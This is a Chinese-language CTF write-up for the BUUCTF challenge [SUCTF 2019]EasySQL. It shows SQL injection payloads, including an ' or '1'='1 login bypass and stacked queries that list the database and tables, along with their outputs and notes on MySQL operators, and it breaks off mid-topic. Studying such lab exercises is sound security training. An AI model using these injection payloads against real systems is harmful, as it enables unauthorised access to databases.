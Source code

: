 ```yaml
---
title: BUUCTF web刷题记录 WP
date: 2022-3-29 19:51:23
tags:  CTF,比赛
category: CTF
---
```


## [SUCTF 2019]EasySQL

> [参考博客园WP1+常见sql_mode介绍](https://www.cnblogs.com/gtx690/p/13176458.html)
>
> [CSDN WP2](https://blog.csdn.net/RABCDXB/article/details/111398725)
>
> [在线mysql执行🔗](http://mysql.jsrun.net/)
>
> [在线mysql执行2🔗](https://www.liaoxuefeng.com/wiki/1177760294764384/1179611432985088)

- <span style="background:#ffbbff;">**知识点：**</span>

```
堆叠查询

后端代码猜测

1 || ** ，||双作用

set sql_mode = pipes_as_concat 命令理解（为什么没有过滤set、concat的原因）
```



万能密码' or '1'='1发现waf

尝试堆叠注入

输入query=1;select 2;返回Array ( [0] => 1 ) Array ( [0] => 2 )，

query=1;select database();返回Array ( [0] => 1 ) Array ( [0] => ctf )，得到数据库：ctf，

query=1;show tables;返回Array ( [0] => 1 ) Array ( [0] => Flag )，得到表Flag 

- 获取数据表结构:

  desc 表名;

  show columns from 表名;

但是都被拦截，估计过滤了关键词flag



> [mysql运算符](https://www.runoob.com/mysql/mysql-operator.html)

mysq里逻辑运算符：与：and，或：or、||，非：not、！，异或：xor

**单个|是按位或运算符，&是按位与，^是按位异或**

运算符优先级：
